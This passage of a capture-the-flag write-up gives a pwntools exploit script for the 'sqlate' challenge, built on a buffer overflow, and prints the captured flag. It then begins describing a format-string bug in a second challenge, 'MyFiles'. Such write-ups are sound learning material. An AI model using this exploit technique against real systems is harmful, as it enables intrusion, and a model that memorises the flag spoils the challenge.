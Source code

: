 ```py
from pwn import context, gdb, remote, process, p64, p32, sys, pidof
from sys import argv

context.log_level = "debug"
context.arch = "amd64"

conn = remote("sqlate.chal.irisc.tf", 10000) if "r" in argv else process("sqlate/vuln")
if "r" not in argv:
    context.terminal = ["tmux", "new-window"]
    gdb.attach(
        pidof(conn)[0],
        f"""
b *$rebase(0xaf4e)
""",
    )

# create
conn.sendlineafter(b">", b'1')
conn.sendlineafter(b":", b'asd')
conn.sendlineafter(b":", b'zxc')
conn.sendlineafter(b":", b'qwe')

# update
conn.sendlineafter(b">", b'2')
conn.sendlineafter(b">", b'2')
conn.sendlineafter(b">", b'2')
conn.sendlineafter(b":", b'\xee'*191)
conn.sendlineafter(b":", b'asd')

# info
conn.sendlineafter(b">", b'3')
conn.sendlineafter(b":", b'asd')

# flag

conn.sendlineafter(b">", b'7')

conn.interactive()
# irisctf{classic_buffer_issues}
```

## pwn - MyFiles ⭐⭐
是一个zip文件管理系统。可以有最多16个用户，每个用户可以报关至多0x100个最大可以0x200字节的单文件zip文件。

权限控制分为这么几个级别：

- 什么都没有，可以列出所有用户，列出所有文件（但是文件内容只能拿到名称，hash和大小）
- 有邀请码，可以创建新的用户，指定用户名密码。
- 有用户名密码，可以viewFile查看文件具体内容，viewFile函数内有格式化字符串漏洞。
- 用户管理员位不为0，可以看flag
